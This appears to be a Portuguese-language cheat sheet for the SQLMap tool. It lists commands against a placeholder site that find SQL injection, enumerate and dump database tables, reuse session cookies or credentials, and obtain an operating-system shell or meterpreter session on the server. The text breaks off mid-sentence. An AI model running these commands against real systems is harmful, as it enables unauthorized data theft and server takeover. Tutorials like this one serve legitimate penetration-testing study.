 # SQLMap: The Basics 💉

## 📌 O que é o SQLMap?
- **SQLMap** é uma ferramenta automatizada para detecção e exploração de vulnerabilidades de **SQL Injection**.  
- Facilita ataques que seriam feitos manualmente, identificando parâmetros vulneráveis e permitindo **extração de dados, acesso ao sistema operacional e até escalonamento de privilégios**.  

---

## 🚀 Uso Básico
Executar um teste simples de injeção:
```bash
sqlmap -u "http://site.com/page.php?id=1"
```
- `-u` → define a URL alvo.
- SQLMap irá testar automaticamente injeções comuns.
  Opções Importantes
## 🔍 Detecção
```bash
sqlmap -u "http://site.com/page.php?id=1" --dbs
```
`--dbs` → lista os bancos de dados disponíveis.
```bash
sqlmap -u "http://site.com/page.php?id=1" --tables -D <banco>
```
`--tables -D` → lista as tabelas dentro de um banco específico.
```bash
sqlmap -u "http://site.com/page.php?id=1" --columns -D <banco> -T <tabela>
```
`--columns` → lista colunas de uma tabela.
```bash
sqlmap -u "http://site.com/page.php?id=1" --dump -D <banco> -T <tabela>
```
`--dump` → extrai os dados da tabela alvo.
⚙️ Opções de Autenticação
```bash
sqlmap -u "http://site.com/page.php?id=1" --cookie="PHPSESSID=12345"
```
`--cookie` → permite usar sessões autenticadas.
```bash
sqlmap -u "http://site.com/page.php?id=1" --auth-type=basic --auth-cred="user:pass"
```
`--auth-type` + `--auth-cred` → autenticação HTTP básica/digest.
## 🎯 Controle de Alvo
```bash
sqlmap -r request.txt
```
`-r` → usa um arquivo de requisição HTTP (capturado pelo Burp Suite, por exemplo).
```bash
sqlmap -u "http://site.com/page.php?id=1" --level=5 --risk=3
```
`--level` (1-5) → profundidade dos testes.
`--risk` (1-3) → risco dos payloads.

## 💻 Acesso ao Sistema
```bash
sqlmap -u "http://site.com/page.php?id=1" --os-shell
```
`--os-shell` → obtém uma shell interativa no servidor.
```bash
sqlmap -u "http://site.com/page.php?id=1" --os-pwn
```
`--os-pwn` → tenta acesso direto ao sistema (meterpreter
